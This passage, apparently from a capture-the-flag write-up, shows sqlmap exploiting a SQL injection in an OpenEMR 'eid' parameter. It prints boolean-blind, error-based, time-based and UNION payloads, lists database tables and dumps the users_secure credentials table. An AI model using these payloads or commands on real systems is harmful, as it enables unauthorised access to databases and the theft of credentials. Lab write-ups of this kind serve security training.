 ![](./images/11.png)

- Knowing that this page is vulnerable, I will run `sqlmap` after saving the request in  `Burp`
```
└─$ sqlmap -r sqli.req --batch                                                                   
<SNIP>
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (6227=6227) THEN 1 ELSE (SELECT 2160 UNION SELECT 3127) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x7170717871,(SELECT (ELT(7606=7606,1))),0x716b706271),7606)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 7961 FROM (SELECT(SLEEP(5)))Ccfj)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170717871,0x47506b536867545963774f71744555566268494f6f444142574b5473584e77694f6654736f714f73,0x716b706271),NULL-- -
---
<SNIP>
```

- Since we need creds, let's dump them
```
└─$ sqlmap -r sqli.req --batch -D openemr --tables      
<SNIP>
[18:43:48] [INFO] fetching tables for database: 'openemr'
Database: openemr
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| log                                   |
<SNIP>
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
<SNIP>
```
```
└─$ sqlmap -r sqli.req --batch -D openemr -T users_secure --dump
<SNIP>
```